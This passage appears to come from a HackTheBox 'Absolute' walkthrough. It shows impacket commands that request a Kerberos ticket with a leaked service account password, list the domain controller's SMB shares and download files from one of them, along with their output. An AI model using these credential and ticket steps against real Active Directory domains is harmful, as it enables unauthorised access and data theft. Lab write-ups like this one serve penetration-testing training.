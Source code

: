 



```bash
❯ impacket-getTGT absolute.htb/svc_smb:'AbsoluteSMBService123!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in svc_smb.ccache
❯ export KRB5CCNAME=$(pwd)/svc_smb.ccache
❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Absolute/Absolute/content/svc_smb.ccache
Default principal: svc_smb@ABSOLUTE.HTB

Valid starting     Expires            Service principal
22/01/25 02:42:32  22/01/25 06:42:32  krbtgt/ABSOLUTE.HTB@ABSOLUTE.HTB
	renew until 22/01/25 06:42:32, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 
```



```bash
❯ impacket-smbclient absolute.htb/svc_smb@dc.absolute.htb -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# ls
[-] No share selected
# shares
ADMIN$
C$
IPC$
NETLOGON
Shared
SYSVOL
# use Shared
# ls
drw-rw-rw-          0  Thu Sep  1 19:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 19:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 19:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 19:02:23 2022 test.exe
# mget *
[*] Downloading compiler.sh
[*] Downloading test.exe
```





```bash
❯ catnp compiler.sh
#!/bin/bash

nim c -d:mingw --app:gui --cc:gcc -d:danger -d:strip $1
```
